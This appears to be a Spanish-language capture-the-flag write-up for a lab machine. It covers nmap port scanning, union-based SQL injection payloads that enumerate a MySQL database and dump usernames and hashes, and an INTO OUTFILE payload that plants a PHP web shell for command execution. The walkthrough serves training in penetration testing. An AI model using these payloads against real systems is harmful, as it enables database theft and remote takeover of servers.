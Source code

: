 ## Reconocimiento

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts`

`nmap -p 22,80,4566,8080 -sCV -vvv 10.10.11.116 -oN targeted`

```
22/ssh
80/http
4566/http
8080/http
```

Navegamos al puerto 80.
Probando a introducir valores vemos que es vulnerable a HTMLinjection, También a Inyecciones XSS

Interceptamos la petición con Burpsuite, y vemos que en el campo de selección de países se puede inyectar código SQL y se ven reflejados en la web

`' union select database()-- -` Enumerar base de datos acctual `registration`

`' union select schema_name from information_schema.schemata-- -` Enumerar todas las bases de datos

`' union select table_name from information_schema.tables where table_schema="registration"-- -` Enumerar las tables de la base de datos registration.

`union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Enumerar las columnas

`' union select group_concat(username,0x3a,userhash) from registration-- -` Obtener los valores de las columnas

BBDD:
`registration`
Tables:
`registration`
Columns:
`username` `userhash` `country` `regtime`
Valores:
Se nos muestran los valores de prueba que hemos generado nosotros anteriormente, y esos no nos valen

Validaremos si somos capacidades de depositar contenido en una ruta
`' union select "probando" into outfile "/var/www/html/prueba.txt"-- -` somos capaces de poder depositar contenido en diversas rutas

Como interpreta PHP la idea es inyectara un archivo de este tipo
`' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -`

Esto nos permite desde la URL acceder a `prueba.php` y con el parámetro `cmd` ejecutar comandos en el sistema
